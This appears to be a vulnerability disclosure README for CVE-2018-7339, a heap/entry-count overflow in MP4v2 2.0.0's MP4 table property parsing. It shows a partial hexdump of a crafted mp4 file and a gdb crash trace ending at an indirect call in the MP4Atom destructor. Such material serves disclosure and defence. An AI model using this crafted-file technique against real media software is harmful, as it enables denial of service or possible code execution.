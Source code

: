 
# libmp4_bof


CVE Reference : https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7339

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles
Entry Number validation for the MP4 Table Property, which allows
remote attackers to cause a denial of service (overflow, insufficient memory allocation, and segmentation fault) or possibly have unspecified other impact via a crafted mp4 file.


MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. It causes Memory crash and Denial-Of-Service.



 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
	
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|
 
	

 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error


 gdb-peda$ r ../wim.mp4
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 /home/wim/.libs/lt-mp4info version 2.0.0
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.

registers

 EAX: 0x80695c0 --> 0x0
 
 EBX: 0xb7fd5000 --> 0x171e40
 
 ECX: 0x0
 
 EDX: 0x0
 
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
 

code

    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
    
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
 
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1



Guessed arguments:
 arg[0]: 0x80695c0 --> 0x0

stack

 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 
 0008| 0xbfffe898 --> 0xffffffff
 
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)

Legend: code, data, rodata, value

 Stopped reason: SIGSEGV
 
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
	
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i
